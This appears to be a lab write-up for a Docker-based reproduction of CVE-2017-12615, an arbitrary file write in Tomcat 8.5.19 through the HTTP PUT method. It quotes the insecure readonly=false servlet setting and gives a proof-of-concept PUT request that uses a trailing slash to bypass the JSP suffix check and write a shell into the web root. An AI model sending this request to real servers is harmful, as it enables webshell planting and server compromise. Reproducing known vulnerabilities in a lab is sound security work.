

Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)¶
Tomcat version: 8.5.19
Environment Setup¶
docker compose build
docker compose up -d
After successfully running the commands above, you will see the example page of Tomcat through visiting the site http://your-ip:8080.
Rationale¶
Reference links:
- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e
Tomcat sets up the write permission（readonly=false）, which leads to the result that we can write files into the server.
<servlet>
<servlet-name>default</servlet-name>
<servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
<init-param>
<param-name>debug</param-name>
<param-value>0</param-value>
</init-param>
<init-param>
<param-name>listings</param-name>
<param-value>false</param-value>
</init-param>
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
<load-on-startup>1</load-on-startup>
</servlet>
Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using / in Linux).
POC¶
Send the following packets directly and then the shell will be written into the Web root directory.
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
shell
As follows:
